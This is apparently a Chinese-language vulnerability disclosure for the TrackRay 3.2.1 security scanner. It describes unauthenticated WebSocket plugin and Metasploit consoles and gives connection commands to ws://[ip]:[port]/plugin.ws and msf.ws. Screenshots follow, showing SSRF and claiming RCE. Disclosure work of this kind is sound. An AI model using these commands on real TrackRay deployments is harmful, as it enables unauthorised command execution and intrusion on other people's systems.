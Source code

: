 # 溯光（TrackRay）3.2.1 未授权RCE

## Target & Version
项目地址：https://github.com/iSafeBlue/TrackRay
版本：v3.2.1

## Background
扫github的时候看到的这个项目，虽然有900+个 stars，感觉不咋火。
其中首页注意中的一句话吸引了我  
![-w710](media/15909787372321/15911725266740.jpg)

本着日行一善的原则，决定帮它火一把。

## Exp
TrackRay的两个交互式控制台，用WebSocket实现
![-w1411](media/15909787372321/15911724359679.jpg)
WebSocket未做任何授权认证，所以这两个console就是白给。利用方式很简单
exp：
```
# 安装websockets
pip3 install websockets
# 连接 plugin console
python3 -m websockets ws://[ip]:[port]/plugin.ws
# 连接 msf consle
python3 -m websockets ws://[ip]:[port]/msf.ws
```

## Poc
由于我的msfrpcd始终没有配置成功，这里就懒得折腾，演示一个利用 plugin console 实现未授权ssrf的效果，rce也是一样，不过连的是 msf console：
连接 plugin consle
![-w1120](media/15909787372321/15911181426135.jpg)

寻找所有可用插件，使用默认提供的crawlergoScan
![-w1440](media/15909787372321/15911181721229.jpg)

ssrf
![-w1440](media/15909787372321/15911182142090.jpg)

![-w964](media/15909787372321/15911182371403.jpg)



